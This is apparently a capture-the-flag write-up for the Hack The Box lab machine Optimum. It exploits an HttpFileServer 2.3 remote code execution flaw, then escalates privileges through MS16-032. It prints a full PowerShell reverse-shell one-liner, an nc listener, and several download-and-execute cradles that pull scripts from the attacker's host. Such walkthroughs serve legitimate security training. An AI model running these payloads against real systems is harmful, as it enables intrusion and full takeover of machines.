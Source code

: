 ![logo](/logo.png)

# [Optimum- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 18 Mar 2017 as the sixth machine on HTB,Optimum created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *HFS
  *HttpFileserver
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/optimum 10.10.10.8
```

###### Output 
![](Windows/Windows-Easy/Optimum/Screenshots/nmap.png)
```sh
nmap -sV -sC -oA nmap/optimum 10.10.10.8                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 14:58 EAT
Nmap scan report for 10.10.10.8
Host is up (0.31s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.03 seconds
```

looking at the results  we find out that there is 1 ports open and its a `HttpFileServer `and its running an `Apache server`. 

port[80]-  httpd 2.3

so looking at the page [http//:10.10.10.8](http://10.10.10.8) we find there is a login page 

![](/Windows/Windows-Easy/Optimum/Screenshots/landingpage.png)

when I try to login with default credential i find out that it fails but when i click at the HttpFileserver 2.3 it redirects to a [rejetto](http://www.rejetto.com/hfs/)

![](Windows/Windows-Easy/Optimum/Screenshots/rejetto.png)

so we decide to search for the exploit 

# Exploitation

```sh
searchsploit HttpFileServer 2.3
```

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit.png)

as we can see their is an RCE exploit a python script so we examine the file

![](/Windows/Windows-Easy/Optimum/Screenshots/exploit.png)

we then set a pthon server  which will be used to get our exploit to the machine 

![](/Windows/Windows-Easy/Optimum/Screenshots/pythonserver.png)
we can see that it exploits with the `%00`  null bytes but this scripts generates for us a url to execute a reverse shell on the machine.

```sh
python3 49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.9/optimumpowershell.ps1')"
```

so we create a powershell reverse shell so that we can be able to execute and get a shell. You can get search shell from [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) for multiline and one line from [nishang](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1&ved=2ahUKEwidwsWIy-qHAxV4R_EDHS6ZD-kQjBB6BAguEAE&usg=AOvVaw1G_nxxPwS6B_yCRUM4Sd3U)

```sh
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.9',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

now we set a listener so as to get the revershell.

```sh
nc -nvlp 1337
```

then we get the  revershell 

![](/Windows/Windows-Easy/Optimum/Screenshots/reverse.png)

and we navigate with the python script generated above to the browser to get the shell.

![](/Windows/Windows-Easy/Optimum/Screenshots/browser.png)

we can then get the user flag from the user `kostas`

![](/Windows/Windows-Easy/Optimum/Screenshots/userflag.png)

now that we get to find the user flag we can now do a privillage escalation to find the root flag 

# Privillage Escalation

Just by looking at the `systeminfo` we get that their are hot fixes that where done to the machine

![](/Windows/Windows-Easy/Optimum/Screenshots/hotfix.png)

Now we search and find that their is script that checks for vulnerablitities of missing software patches for local privilege escalation vulnerabilities. [sherlork](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1) now we save the script and be able to execte if so that we can run.

from the script just copy the function find Allvulns and put at the end of the script them from the session run

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/sherlork.ps1')
```

![](/Windows/Windows-Easy/Optimum/Screenshots/sherlork.png)

and it appears that `ms16-032 and some other 2` are vulnerable

![](/Windows/Windows-Easy/Optimum/Screenshots/ms16.png)

so we search for an exploit using searchsploit and we get its vulnerabilty canbe done using different ways 

![](/Windows/Windows-Easy/Optimum/Screenshots/searchsploit2.png)

after examining the code we find that it execute from cmd.exe now we find another exploit from [empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) which has modification to execte from power shell. We just add the revershell at the end so that we can Invoke from the session again.

![](/Windows/Windows-Easy/Optimum/Screenshots/InvokeMs016.png)
Now after that we set a new listner and we go and execute the from the session with this to get a shell of the `Nt Authority`

```sh
IEX(New-Object Net.webclient).downloadString('http://10.10.14.9:8000/InvokeMs.ps1')
```

![](Windows/Windows-Easy/Optimum/Screenshots/InvokeMs.png)

now after executing that a setting a listner we get root

![](/Windows/Windows-Easy/Optimum/Screenshots/root.png)
now we get the root flag 

![](/Windows/Windows-Easy/Optimum/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------